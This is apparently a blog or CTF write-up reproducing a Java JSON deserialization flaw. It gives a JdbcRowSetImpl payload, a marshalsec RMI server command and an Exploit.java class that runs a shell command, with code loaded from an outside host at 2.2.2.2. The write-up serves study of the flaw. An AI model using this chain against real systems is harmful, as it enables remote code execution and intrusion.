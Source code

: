 It seems that there are some issues with dnslog, so I should either set up my own or find another similar service for future use. However, my teammate successfully tried it with another service, so it is confirmed to be feasible.

Next, I need to set up the environment as described in the previous article and find a way to exploit this vulnerability. Since I am not familiar with Java, I usually give up when I see Java problems, but this time I accidentally tried it and succeeded. First of all, thanks to the author of the previous article for writing the reproduction method quite clearly. Here is a brief description.

First, you can use the JSON payload given in the article to trigger the vulnerability:

``` json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://2.2.2.2:9999/Exploit",
        "autoCommit":true
    }
}
```

This vulnerability will load a class file (i.e., `dataSourceName`) via RMI, so you must first run an RMI server on your server, which can be done using the [marshalsec-0.0.3-SNAPSHOT-all.jar](https://github.com/mbechler/marshalsec) tool:

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://2.2.2.2:8888/#Exploit" 9999
```

This command runs an RMI server on port 9999, corresponding to the above payload.

Next, your RMI server must provide the Java Class you want to load, so you also need to provide a place for it to download the file, which is the `http://2.2.2.2:8888/#Exploit` in the above command.

At this point, we can write an `Exploit.java`:

``` java
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        Process p = Runtime.getRuntime().exec(new String[]{"bash", "-c", "touch /zydx666"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```
